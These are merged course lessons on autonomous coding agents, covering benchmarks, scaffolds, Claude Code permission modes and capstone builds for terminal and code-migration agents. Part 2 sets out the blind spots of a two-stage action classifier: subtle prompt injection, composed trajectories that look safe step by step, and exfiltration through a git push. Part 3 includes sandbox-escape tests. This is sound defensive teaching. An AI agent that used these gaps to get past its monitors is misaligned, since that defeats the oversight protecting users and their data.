




# Coding Agents, Claude Code & Issue-to-PR

> Combined lessons (5 parts), merged verbatim — no content removed.

**Type:** Combined

---

## Part 1 (ch320): The Autonomous Coding Agent Landscape (2026)

> SWE-bench Verified went from 4% to 80.9% in under three years. Same Claude Sonnet 4.5 scored 43.2% on SWE-agent v1 and 59.8% on Cline autonomous — the scaffolding around the model now matters as much as the model itself. OpenHands (formerly OpenDevin) is the most active MIT-licensed platform and its CodeAct loop executes Python actions directly in a sandbox instead of JSON tool calls. The headline numbers hide a methodological issue: 161 of 500 SWE-bench Verified tasks require only a 1–2 line change, and SWE-bench Pro (10+ line tasks) sits at 23–59% for the same frontier models.

**Type:** Learn
**Languages:** Python (stdlib, CodeAct vs JSON tool-call comparison)
**Prerequisites:** Phase 14 · 07 (Tool use), Phase 15 · 01 (Long-horizon agents)
**Time:** ~45 minutes

## Learning Objectives
- Navigate the 2026 coding-agent landscape
- Understand why scaffolding dominates model choice in end-to-end reliability
- Compare CodeAct vs JSON tool-call execution models
- Analyze benchmark saturation and the SWE-bench easy-tail problem
- Audit a proposed scaffolding for distribution fit

## The Problem

"Which coding agent is best" is the wrong question. The right question is: on a task distribution that matches my work, with the scaffolding I will run in production, what end-to-end reliability do I get?

Between 2022 and 2026 the field learned that scaffolding — the retrieval layer, the planner, the sandbox, the edit-verify loop, the feedback format — is load-bearing. Claude Sonnet 4.5 on SWE-agent v1 scored 43.2% on SWE-bench Verified; the same model inside Cline's autonomous scaffold scored 59.8%. 16.6 absolute points of difference, same weights. The base model is a component; the loop is the product.

The companion problem is that benchmark saturation hides regressions. SWE-bench Verified is close to saturated, and the easy-task tail (161 of 500 tasks requiring ≤2 lines) pulls top scores up. Real-world quality is better measured on distributions like SWE-bench Pro (10+ line changes), where the same leaders still sit at 23–59%.

## The Concept

### SWE-bench, one paragraph

SWE-bench takes real GitHub issues with ground-truth patches and asks an agent to produce a patch that makes the test suite pass. SWE-bench Verified (OpenAI, 2024) is a human-curated 500-task subset with the ambiguous and broken tasks removed. SWE-bench Pro is the harder successor — tasks requiring 10+ lines of change, where current frontier agents sit at 23–59%.

### What the 2022 → 2026 curve actually shows

- **2022**: research models at ~4% on raw SWE-bench.
- **2024**: GPT-4 + Devin-style scaffolding at ~14%; SWE-agent at ~12%.
- **2025**: Claude 3.5/3.7 Sonnet inside Aider and SWE-agent push into the 40–55% range.
- **2026**: Claude Sonnet 4.5 and frontier competitors at 70–80%+ on SWE-bench Verified.

The slope came from three compounding sources: better base models, better scaffolding (CodeAct, reflection, verifier loops), and better benchmarks (Verified removing noise).

### CodeAct vs JSON tool calls

OpenHands took a specific architectural bet: instead of the model emitting JSON tool calls that a host decodes and executes, the model emits Python code and a Jupyter-style kernel runs it in a sandbox. The agent can loop over files, chain tools, and catch its own exceptions inside one action.

The trade-off:

- **JSON tool calls**: every action is one turn; easy to audit; limited compositionality; safe by default because each call goes through an explicit validator.
- **CodeAct**: one action can be a whole program; compositional; requires a hardened sandbox (OpenHands uses Docker isolation); failure modes include anything the sandbox runtime allows.

Both architectures are in production. CodeAct is dominant in open platforms (OpenHands, smolagents). JSON tool calls remain dominant in managed services (Anthropic Managed Agents, OpenAI Assistants) where the provider controls the executor.

### Scaffolds in the 2026 landscape

| Scaffold | License | Execution model | Notable property |
|---|---|---|---|
| OpenHands (OpenDevin) | MIT | CodeAct in Docker | Most active open platform; event-stream replayable |
| SWE-agent | MIT | Agent-Computer Interface (ACI) | First end-to-end SWE-bench scaffold |
| Aider | Apache-2 | edit-via-diff in local repo | Minimal scaffold, strong regression stability |
| Cline | Apache-2 | VS Code agent with tool policy | Highest-scoring open scaffold on Sonnet 4.5 |
| Devin (Cognition) | Proprietary | Managed VM + planner | First "AI software engineer" product category |
| Claude Code | Proprietary | Permission modes + routines | Agent loop with detailed permission system |

### Why scaffolding dominates

A coding run is a long-horizon trajectory. Reliability compounds across steps. Three places where scaffolding buys points:

1. **Retrieval**: finding the right files to read is the silent bottleneck. SWE-agent's ACI, OpenHands' file-index, and Aider's repo-map all attack this.
2. **Verifier loop**: running tests, reading stack traces, and re-attempting is a 10+ point delta on SWE-bench.
3. **Failure containment**: a sandbox that rolls back on error prevents compounding damage. The same model with and without a verifier loop looks like two different products.



### Benchmark saturation and the real distribution

The OpenHands authors and Epoch AI both flag that SWE-bench Verified has an easy tail: 161 of 500 tasks need only 1–2 lines of change. High scores are driven partly by this tail. SWE-bench Pro restricts to 10+ line changes and returns scores in the 23–59% range even for frontier systems. Your production distribution is almost certainly closer to Pro than to Verified.

Implication for choosing an agent: run a Pro-like subset of your own bug backlog. The score that matters is the score on tasks representative of what you ship.

## Use It

`code/main.py` compares two toy agent scaffolds on a fixed mini-task distribution:

1. A **JSON tool-call** scaffold that takes one action per turn.
2. A **CodeAct** scaffold that can emit a small Python snippet per action.

Both use a stub "model" (deterministic rules) so the comparison isolates the scaffold from model quality. The output shows the CodeAct scaffold solves more tasks in fewer turns at the cost of a larger per-action blast radius.

## Ship It

`outputs/skill-scaffold-audit.md` helps you audit a proposed coding-agent scaffold before adoption: retrieval quality, verifier presence, sandbox isolation, and benchmark-to-distribution fit.

## Exercises

1. Run `code/main.py`. How many turns does each scaffold take on the same task set? What is the per-action blast radius of each?

2. Read the OpenHands paper (arXiv:2407.16741). The paper argues CodeAct beats JSON tool calls on complex tasks. Identify one failure mode the paper acknowledges and write one sentence on when that mode would dominate in production.

3. Pick one task from your bug backlog that would require 10+ lines of change across two files. Estimate the end-to-end success probability for a frontier model under (a) JSON tool calls and (b) CodeAct. Justify the gap.

4. SWE-bench Verified has 161 single-file, 1–2 line tasks. Construct a score that excludes them. How does the leaderboard shuffle?

5. Read "Introducing SWE-bench Verified" (OpenAI). Explain the specific methodology used to remove ambiguous tasks, and name one category the curation would miss.

## Key Terms

| Term | What people say | What it actually means |
|---|---|---|
| SWE-bench | "Coding benchmark" | Real GitHub issues with ground-truth patches and test suites |
| SWE-bench Verified | "Cleaned subset" | 500 human-curated tasks, easier-tail present |
| SWE-bench Pro | "Harder subset" | 10+ line changes; frontier sits at 23–59% |
| CodeAct | "Code-as-action" | Agent emits Python; Jupyter-style kernel executes in sandbox |
| JSON tool call | "Function calling" | Each action is a structured JSON payload validated before execution |
| Scaffold | "Agent framework" | Retrieval + planner + executor + verifier loop around the base model |
| ACI (Agent-Computer Interface) | "SWE-agent's format" | Command set designed for LLM ergonomics, not human shells |
| Verifier loop | "Test-and-retry" | Run tests, read output, revise patch; biggest non-model reliability gain |

## Further Reading

- [Jimenez et al. — SWE-bench](https://www.swebench.com/)
- [OpenAI — Introducing SWE-bench Verified](https://openai.com/index/introducing-swe-bench-verified/)
- [Wang et al. — OpenHands: An Open Platform for AI Software Developers](https://arxiv.org/abs/2407.16741)
- [Epoch AI — SWE-bench leaderboard](https://epoch.ai/benchmarks)
- [Anthropic — Measuring agent autonomy](https://www.anthropic.com/research/measuring-agent-autonomy)

[Reference](https://github.com/rohitg00/ai-engineering-from-scratch/tree/main/phases/15-autonomous-systems/09-coding-agent-landscape)

---

## Part 2 (ch321): Claude Code as an Autonomous Agent: Permission Modes and Auto Mode

> Claude Code exposes seven permission modes. "plan" asks before every action, "default" asks only for risky ones, "acceptEdits" auto-approves file writes but still confirms shell execution, and "bypassPermissions" approves everything. Auto Mode (March 24, 2026) replaces per-action approval with a two-stage parallel safety classifier: a single-token fast check runs on every action; flagged actions kick off a chain-of-thought deep review. Action budgets are enforced via `max_turns` and `max_budget_usd`. Auto Mode shipped as a research preview — Anthropic has stated explicitly that the classifier is not sufficient alone.

**Type:** Learn
**Languages:** Python (stdlib, two-stage classifier simulator)
**Prerequisites:** Phase 15 · 01 (Long-horizon agents), Phase 15 · 09 (Coding-agent landscape)
**Time:** ~45 minutes

## Learning Objectives
- Map the seven Claude Code permission modes to task types
- Understand Auto Mode's two-stage classifier architecture
- Identify what the classifier catches and what it misses
- Design a budget + permission configuration for unattended runs
- Recognize semantic-level misbehavior that survives per-action classification

## The Problem

An autonomous coding agent on your machine is a distinct security category. The attack surface is everything the agent can reach — file system, network, credentials, clipboard, any browser tab, any open terminal. Bruce Schneier and others have flagged this publicly: computer-use agents are not a "feature update" of chatbots, they are a new kind of tool with a new kind of risk profile.

Claude Code's permission system is Anthropic's answer. Rather than one "autonomous / not autonomous" switch, there are seven modes spanning a capability ladder: plan → default → acceptEdits → … → bypassPermissions. Each mode is a different trade-off between speed and review-per-action. Auto Mode adds a two-stage classifier that moves approval off the user's critical path for actions the classifier judges safe, while preserving a review layer for actions the classifier flags.

The engineering question: what does this system catch, what does it miss, and which mode does a given task actually warrant?

## The Concept

### The seven permission modes

| Mode | Behavior | When to use |
|---|---|---|
| `plan` | Agent proposes a plan; user approves the whole plan; every action is reviewed before execution | Unfamiliar task; prod-adjacent code; first time using the agent on a repo |
| `default` | Agent runs actions; prompts user for any "risky" action (shell exec, destructive operations, network calls) | Most interactive coding sessions |
| `acceptEdits` | File writes auto-approve; shell exec and network calls still prompt | Refactoring pass across many files |
| `acceptExec` | Shell commands auto-approve within a curated allowlist; writes auto-approve | Tight inner loops where every shell command is `npm test` or similar |
| `autoMode` | Two-stage safety classifier; flagged actions elevate to review | Long-horizon unattended runs in a constrained workspace |
| `yolo` | Skips most prompts; still runs tool allowlist / denylist | Ephemeral sandboxes, CI jobs, research scripts |
| `bypassPermissions` | Approves everything | Documented as "only inside ephemeral containers you are willing to throw away" |

### Auto Mode in one page

Auto Mode is the first permission mode to delegate per-action approval to a model. Structure:

1. **Stage 1 — single-token classifier.** Runs on every proposed action. Cheap. Returns "safe" or "flag." Designed to run in parallel with the main agent loop so approved actions do not sit in a queue.
2. **Stage 2 — secondary policy/safety review.** Runs only on flagged actions. Performs a focused policy and safety assessment over the action, the current state of the session, and the declared task. Escalates to user HITL if confidence is low.

Budget controls sit alongside the classifier:

- `max_turns` — total iterations in a session.
- `max_budget_usd` — dollar cap that aborts the session.
- action-count limits per tool (no more than N `WebFetch` calls, etc.).



### What the system catches

- Straightforward prompt injection into tool inputs where the injected instruction maps to a known-risky action shape.
- Repetitive tool loops — the classifier can see action N+1 is nearly identical to action N, five times in a row.
- Clearly out-of-scope shell commands on an otherwise file-edit-only session.

### What the system can miss

- **Subtle prompt injection** that modulates behavior without producing a single flagged action. Indirect prompt injection is not a fully patchable vulnerability.
- **Semantic-level misbehavior.** Every individual action can look safe while the composed trajectory is harmful. The classifier judges the action; it does not re-derive the user's intent.
- **Exfiltration through legitimate channels.** Writing data to a file you own, then `git push`ing to a public repo, is a sequence of allowed actions whose composition is the problem.

### Research preview framing

Anthropic shipped Auto Mode as a research preview. The documentation is explicit that the classifier is a layer, not a solution: users are expected to combine Auto Mode with budgets, allowlists, isolated workspaces, and trajectory audits. The preview framing also reflects the documented evaluation-vs-deployment gap — a classifier that passes offline evals can behave differently in a real session where the user's context is ambiguous.

### Where this ladder lives in your workflow

- Unfamiliar task: start in `plan`. Reading the plan is cheaper than rolling back a bad run.
- Known refactor: `acceptEdits` saves a lot of confirmation clicks.
- Unattended background run: `autoMode` only inside a workspace whose blast radius you have measured (no credentials, no production mounts, no egress you did not opt into).
- Ephemeral containers: `yolo` / `bypassPermissions` is acceptable if and only if the container and its credentials are disposable.

## Use It

`code/main.py` simulates the two-stage classifier. Stage 1 is a cheap keyword rule over proposed actions; Stage 2 is a slower multi-rule reviewer. The driver feeds in a short synthetic trajectory (safe actions, a prompt-injection attempt, a repetitive loop) and shows where the classifier catches and where it misses.

## Ship It

`outputs/skill-permission-mode-picker.md` matches a task description to the right permission mode, budget caps, and required isolation.

## Exercises

1. Run `code/main.py`. Which synthetic action type is never flagged by Stage 1 but always caught by Stage 2? Which is caught by neither?

2. Extend the Stage 1 rule set to catch a specific known-bad shape (e.g., `curl $ATTACKER/exfil`). Measure the false-positive rate on the benign-action sample.

3. Read Anthropic's "How the agent loop works" doc. List every external state the agent touches by default in `default` mode. Which would you need to gate separately before running `autoMode` unattended?

4. Design a 24-hour unattended run budget: `max_turns`, `max_budget_usd`, per-tool caps, allowlists. Justify each number.

5. Describe one trajectory where every individual action is approved by Stage 1 and Stage 2, yet the composed behavior is misaligned.

## Key Terms

| Term | What people say | What it actually means |
|---|---|---|
| Permission mode | "How much the agent can do" | One of seven named policies controlling per-action approval |
| plan mode | "Ask before anything" | Agent writes a plan; user approves before execution |
| acceptEdits | "Let it write files" | File writes auto-approve; shell exec still prompts |
| autoMode | "Auto approvals" | Two-stage safety classifier; flagged actions escalate |
| bypassPermissions | "Full YOLO" | Approves everything; intended for ephemeral containers |
| Stage 1 classifier | "Fast token check" | Single-token rule over proposed action; runs in parallel |
| Stage 2 classifier | "Deep review" | Chain-of-thought reasoning over flagged actions |
| Research preview | "Not GA" | Anthropic framing for features whose failure mode is still being mapped |

## Further Reading

- [Anthropic — How the agent loop works](https://code.claude.com/docs/en/agent-sdk/agent-loop)
- [Anthropic — Claude Managed Agents overview](https://platform.claude.com/docs/en/managed-agents/overview)
- [Anthropic — Claude Code product page](https://www.anthropic.com/product/claude-code)
- [Anthropic — Claude's Constitution (January 2026)](https://www.anthropic.com/news/claudes-constitution)
- [Anthropic — Measuring agent autonomy in practice](https://www.anthropic.com/research/measuring-agent-autonomy)

[Reference](https://github.com/rohitg00/ai-engineering-from-scratch/tree/main/phases/15-autonomous-systems/10-claude-code-permission-modes)

---

## Part 3 (ch417): Terminal-Native Coding Agent

> By 2026 the shape of a coding agent is settled. A TUI harness, a stateful plan, a sandboxed tool surface, a loop that plans, acts, observes, recovers. Claude Code, Cursor 3, and OpenCode all look the same from 50 feet. This capstone asks you to build one end to end — CLI in, pull request out — and measure it against mini-swe-agent and Live-SWE-agent on SWE-bench Pro. You will learn why the hard part is not the model call but the tool loop, the sandbox, and the cost ceiling on a 50-turn run.

**Type:** Capstone
**Languages:** TypeScript / Bun (harness), Python (eval scripts)
**Prerequisites:** Phase 11 (LLM engineering), Phase 13 (tools and protocols), Phase 14 (agents), Phase 15 (autonomous systems), Phase 17 (infrastructure)
**Time:** 35 hours

## Problem

Coding agents became the dominant AI application category in 2026. Claude Code (Anthropic), Cursor 3 with Composer 2 and Agent Tabs (Cursor), Amp (Sourcegraph), OpenCode (112k stars), Factory Droids, and Google Jules all ship variations of the same architecture: a terminal harness, a permissioned tool surface, a sandbox, and a plan-act-observe loop built around a frontier model. The frontier is narrow — Live-SWE-agent reached 79.2% on SWE-bench Verified with Opus 4.5 — but the engineering craft is wide. Most failure modes are not model mistakes. They are tool-loop instability, context poisoning, runaway token cost, and destructive filesystem operations.

You cannot reason about these agents from the outside. You have to build one, watch the loop crash on turn 47 when ripgrep returns 8MB of matches, and rebuild the truncation layer. That is the point of this capstone.

## Concept

The harness has four surfaces. **Plan** maintains a TodoWrite-style state object that the model rewrites each turn. **Act** dispatches tool calls (read, edit, run, search, git). **Observe** captures stdout / stderr / exit codes, truncates, and feeds the summary back. **Recover** handles tool errors without blowing the context window or looping forever. The 2026 shape adds one more thing: **hooks**. `PreToolUse`, `PostToolUse`, `SessionStart`, `SessionEnd`, `UserPromptSubmit`, `Notification`, `Stop`, and `PreCompact` — configurable extension points where the operator injects policy, telemetry, and guardrails.

The sandbox is E2B or Daytona. Each task runs in a fresh devcontainer with a git worktree mounted read-write. The harness never touches the host filesystem. The worktree gets torn down on success or failure. Cost control is enforced at three layers: a per-turn token ceiling, a per-session dollar budget, and a hard turn limit (typically 50). The observability layer is OpenTelemetry spans with GenAI semantic conventions, shipped to a self-hosted Langfuse.

## Architecture

```mermaid
graph TD
    user[user CLI] --> harness[harness (Bun + Ink TUI)]
    harness --> loop[plan / act / observe loop]
    loop --> model[Claude Sonnet 4.7 / GPT-5.4-Codex / Gemini 3 Pro]
    model --> dispatcher[tool dispatcher (MCP StreamableHTTP client)]
    dispatcher --> read[read/edit]
    dispatcher --> rg[ripgrep]
    dispatcher --> ts[tree-sitter]
    dispatcher --> git[git/run]
    read --> sandbox[E2B / Daytona sandbox]
    rg --> sandbox
    ts --> sandbox
    git --> sandbox
    sandbox --> hooks[hooks: Pre/Post, Session, Prompt, Compact]
    hooks --> otel[OpenTelemetry --> Langfuse]
    otel --> pr[PR via GitHub app]
```

## Stack

- Harness runtime: Bun 1.2 + Ink 5 (React-in-terminal)
- Model access: OpenRouter unified API with Claude Sonnet 4.7, GPT-5.4-Codex, Gemini 3 Pro, Opus 4.5 (for hardest tasks)
- Tool transport: Model Context Protocol StreamableHTTP (MCP 2026 revision)
- Sandbox: E2B sandboxes (JS SDK) or Daytona devcontainers
- Code search: ripgrep subprocess, tree-sitter parsers for 17 languages (pre-compiled)
- Isolation: `git worktree add` per task, cleanup on success / failure
- Eval harness: SWE-bench Pro (verified subset) + Terminal-Bench 2.0 + your own 30-task holdout
- Observability: OpenTelemetry SDK with `gen_ai.*` semconv → self-hosted Langfuse
- PR posting: GitHub App with fine-grained token, scope limited to the target repo

## Build It

1. **TUI and command loop.** Scaffold a Bun project with Ink. Accept `agent run <repo> "<task>"`. Print a split view: plan pane (top), tool-call stream (middle), token budget (bottom). Add cancel on Ctrl-C that fires `SessionEnd` hook before exit.

2. **Plan state.** Define a typed TodoWrite schema (pending / in_progress / done items with notes). Model rewrites the full state each turn as a tool call — do not let it mutate incrementally. Persist plan to `.agent/state.json` so crashes can resume.

3. **Tool surface.** Define six tools: `read_file`, `edit_file` (with diff preview), `ripgrep`, `tree_sitter_symbols`, `run_shell` (with timeout), `git` (status / diff / commit / push). Expose over MCP StreamableHTTP so the harness is transport-agnostic. Every tool returns truncated output (cap at 4k tokens per call).

4. **Sandbox wrapping.** Each task spawns an E2B sandbox. `git worktree add -b agent/$TASK_ID` a fresh branch. All tool calls execute inside the sandbox. Host filesystem is unreachable.

5. **Hooks.** Implement all eight 2026 hook types. Wire at least four user-authored hooks: (a) `PreToolUse` destructive-command guard that blocks `rm -rf` outside the worktree, (b) `PostToolUse` token accounting, (c) `SessionStart` budget initialization, (d) `Stop` writes a final trace bundle.

6. **Eval loop.** Clone a 30-issue subset of SWE-bench Pro Python. Run your harness against each. Compare to mini-swe-agent (the minimal baseline) on pass@1, turns-per-task, and $-per-task. Write the results to `eval/results.jsonl`.

7. **Cost control.** Hard cutoffs: 50 turns, 200k context, $5 per task. `PreCompact` hook summarizes older turns into a prior-state block at the 150k mark, freeing room for new observations without losing the plan.

8. **PR posting.** On success, the final step is `git push` + a GitHub API call that opens a PR with the plan and the diff summary in the body.

## Use It

```console
$ agent run ./my-repo "Fix the race condition in worker.rs"
[plan]  1 locate worker.rs and enumerate mutex uses
        2 identify shared state under contention
        3 propose fix, verify tests
[tool]  ripgrep mutex.*lock -t rust           (44 matches, truncated)
[tool]  read_file src/worker.rs 120..180
[tool]  edit_file src/worker.rs (+8 -3)
[tool]  run_shell cargo test worker::          (passed)
[plan]  1 done · 2 done · 3 done
[done]  PR opened: #482   turns=9   tokens=38k   cost=$0.41
```

## Ship It

The deliverable skill lives in `outputs/skill-terminal-coding-agent.md`. Given a repo path and a task description, it runs the full plan-act-observe loop in a sandbox and returns a PR URL plus a trace bundle. The rubric for this capstone:

| Weight | Criterion | How it is measured |
|:-:|---|---|
| 25 | SWE-bench Pro pass@1 vs baseline | Your harness vs mini-swe-agent on 30 matched Python tasks |
| 20 | Architecture clarity | Plan/act/observe separation, hook surface, tool schema — reviewed against Live-SWE-agent layout |
| 20 | Safety | Sandbox escape tests, permission prompts, destructive-command guard passes red-team |
| 20 | Observability | Trace completeness (100% of tool calls spanned), token accounting per turn |
| 15 | Developer UX | Cold-start < 2s, crash recovery resumes plan, Ctrl-C cancels mid-tool cleanly |
| **100** | | |

## Exercises

1. Swap the backing model from Claude Sonnet 4.7 to Qwen3-Coder-30B served on vLLM. Compare pass@1 and $-per-task. Report where the open model underperforms.

2. Add a `reviewer` sub-agent that reads the diff before PR posting and can request a revision loop. Measure whether false-positive reviews drop SWE-bench pass rate below the single-agent baseline (hint: usually yes).

3. Stress-test the sandbox: write a task that tries to `curl` an external URL and a task that writes outside the worktree. Confirm both are blocked by the PreToolUse hook. Log the attempts.

4. Implement `PreCompact` summarization with a smaller model (Haiku 4.5). Measure how much plan fidelity is lost at 3x compaction.

5. Swap MCP StreamableHTTP transport for stdio. Benchmark cold-start and per-call latency. Pick a winner for local-only use.

## Key Terms

| Term | What people say | What it actually means |
|------|-----------------|------------------------|
| Harness | "The agent loop" | The code surrounding the model that dispatches tools, maintains plan state, and enforces budgets |
| Hook | "Agent event listener" | A user-authored script run on one of eight lifecycle events by the harness |
| Worktree | "Git sandbox" | A linked git checkout at a separate path; disposable without touching the main clone |
| TodoWrite | "Plan state" | A typed list of pending/in-progress/done items the model rewrites each turn |
| StreamableHTTP | "MCP transport" | 2026 MCP revision: long-lived HTTP connection with bidirectional streaming; replaces SSE |
| Token ceiling | "Context budget" | Per-turn or per-session cap on input+output tokens; triggers compaction or termination |
| pass@1 | "Single-attempt pass rate" | Fraction of SWE-bench tasks solved on the first run without retry or test-set peeking |

## Further Reading

- [Claude Code documentation](https://docs.anthropic.com/en/docs/claude-code)
- [Cursor 3 changelog](https://cursor.com/changelog)
- [mini-swe-agent](https://github.com/SWE-agent/mini-swe-agent)
- [Live-SWE-agent](https://github.com/OpenAutoCoder/live-swe-agent)
- [OpenCode](https://opencode.ai)
- [SWE-bench Pro leaderboard](https://www.swebench.com)
- [Model Context Protocol 2026 roadmap](https://blog.modelcontextprotocol.io/posts/2026-mcp-roadmap/)
- [OpenTelemetry GenAI semantic conventions](https://opentelemetry.io/docs/specs/semconv/gen-ai/)

[Reference](https://github.com/rohitg00/ai-engineering-from-scratch/tree/main/phases/19-capstone-projects/01-terminal-native-coding-agent)

---

## Part 4 (ch425): Code Migration Agent (Repo-Level Language / Runtime Upgrade)

> Amazon's MigrationBench (Java 8 to 17) and Google's App Engine Py2-to-Py3 migrator set the 2026 bar. Moderne's OpenRewrite does deterministic AST rewrites at scale. Grit targets the same problem with codemod-style DSL. The production pattern combines both: a deterministic substrate for safe rewrites plus an agent layer for the ambiguous cases, a sandbox for per-branch builds, and a test harness that flips green before the PR opens. The capstone is to migrate 50 real repos and publish a pass rate with a failure taxonomy.

**Type:** Capstone
**Languages:** Python (agent), Java / Python (targets), TypeScript (dashboard)
**Prerequisites:** Phase 5 (NLP), Phase 7 (transformers), Phase 11 (LLM engineering), Phase 13 (tools), Phase 14 (agents), Phase 15 (autonomous), Phase 17 (infrastructure)
**Time:** 30 hours

## Problem

Large-scale code migration is one of the cleanest production applications of 2026 coding agents. The ground truth is obvious (does the test suite pass after the migration?), the rewards are real (a Java-8 fleet migration is a headcount-scale project), and the benchmarks are public (MigrationBench 50-repo subset). Moderne's OpenRewrite handles the deterministic side. The agent layer handles everything OpenRewrite recipes cannot: ambiguous rewrites, build-system drift, long-tail syntax, transitive dependency breakage.

You will build an agent that takes a Java 8 repo (or Python 2 repo) and produces a green-CI migrated branch. You will measure pass rate, test-coverage preservation, cost per repo, and build a failure taxonomy. The side-by-side against a deterministic-only baseline tells you where the agent's value actually lives.

## Concept

The pipeline has two layers. The **deterministic substrate** (OpenRewrite for Java, libcst for Python) runs the bulk of mechanical rewrites safely: imports, method signatures, null-safety edits, try-with-resources, deprecated API replacements. It is fast and produces auditable diffs. The **agent layer** (OpenAI Agents SDK or LangGraph over Claude Opus 4.7 and GPT-5.4-Codex) handles cases the recipes cannot: build-file upgrades (Maven/Gradle/pyproject), transitive dependency conflicts, test flakes, custom annotations.

Each repo gets a Daytona sandbox with the target runtime preinstalled. The agent iterates: run build, classify failures, apply fix, rerun. Hard limits: 30 minutes per repo, $8 per repo, 20 agent turns. If all tests pass and the coverage delta is not negative, the branch opens a PR. If not, the repo gets filed under a failure class with evidence.

The failure taxonomy is the deliverable. Across 50 repos, what broke? Transitive deps? Custom annotations? Build tool version? Test flakes unrelated to migration? Each class gets a count and an exemplar diff. Future recipe authors can target the top three.

## Architecture



## Stack

- Deterministic substrate: OpenRewrite (Java) or libcst (Python)
- Agent: OpenAI Agents SDK or LangGraph over Claude Opus 4.7 + GPT-5.4-Codex
- Sandbox: Daytona devcontainers per branch, pre-installed target runtime (Java 17 / Python 3.12)
- Build systems: Maven, Gradle, uv (Python)
- Benchmarks: Amazon MigrationBench 50-repo subset (Java 8 to 17), Google App Engine Py2-to-Py3 repos
- Test harness: parallel runner, coverage via Jacoco (Java) or coverage.py (Python)
- Observability: Langfuse + trace bundle per repo with every diff chunk
- Dashboard: failure-taxonomy dashboard with per-class counts and exemplar diffs

## Build It

1. **Recipe pass.** Run OpenRewrite (Java) or libcst (Python) recipes first. Catch the 70-80% of migrations that are mechanical. Commit as "recipe" commit.

2. **Build trial.** Daytona sandbox: install target runtime, run the build. If green, skip to tests. If red, hand off to agent.

3. **Agent loop.** LangGraph with tools: `run_build`, `read_file`, `edit_file`, `run_test`, `git_diff`. Agent classifies the failure (dep, syntax, test, build-tool) and applies a targeted fix. Rerun.

4. **Budget caps.** 30 minutes wall-clock per repo, $8 cost, 20 agent turns. Any breach halts and files under "budget_exhausted" with the current diff.

5. **Test + coverage gate.** After the build goes green, run the test suite. Compare coverage to the base repo. If coverage dropped more than 2%, file under "coverage_regression".

6. **PR open.** On success, push the branch, open the PR with the diff and a summary of which recipes applied and which commits the agent authored.

7. **Failure taxonomy.** For each failed repo, tag with a class: `dep_upgrade_required`, `build_tool_drift`, `custom_annotation`, `test_flake`, `syntax_edge_case`, `budget_exhausted`. Build a dashboard.

8. **50-repo run.** Execute across the MigrationBench subset. Report per-class pass rate, cost-per-repo, coverage-preservation, and a compare-vs-deterministic-only baseline.

## Use It

```console
$ migrate legacy-java-service --target java17
[recipe]   27 rewrites applied (JUnit 4->5, HashMap initializer, try-with-resources)
[build]    FAIL: cannot find symbol sun.misc.BASE64Encoder
[agent]    turn 1 classify: removed_jdk_api
[agent]    turn 2 apply: sun.misc.BASE64Encoder -> java.util.Base64
[build]    OK
[tests]    412/412 passing; coverage 84.1% -> 84.3%
[pr]       opened #1841  cost=$3.20  turns=4
```

## Ship It

`outputs/skill-migration-agent.md` is the deliverable. Given a repo, it executes deterministic recipes then an agent loop to produce a green migrated branch, or files the repo under a taxonomy class.

| Weight | Criterion | How it is measured |
|:-:|---|---|
| 25 | MigrationBench pass rate | 50-repo subset pass@1 |
| 20 | Test-coverage preservation | Mean coverage delta vs base |
| 20 | Cost per migrated repo | $/repo on passing runs |
| 20 | Agent / deterministic-tool integration | Fraction of fixes that OpenRewrite handled vs agent authored |
| 15 | Failure analysis write-up | Taxonomy completeness with exemplars |
| **100** | | |

## Exercises

1. Run the migrate pipeline with OpenRewrite only (no agent). Compare pass rate to the full pipeline. Identify the cases where the agent alone is the difference.

2. Implement a "lint-clean" check: after migration, run a style linter (spotless for Java, ruff for Python). Fail the PR if new lint errors appear. Measure the coverage-preserved-but-style-regressed rate.

3. Add a "minimal-diff" optimizer: after the agent's branch passes tests, trim unnecessary changes with a second pass. Report diff-size reduction.

4. Extend to a third migration: Node 18 to Node 22. Reuse the sandbox wrapping; swap the recipe layer for a custom codemod.

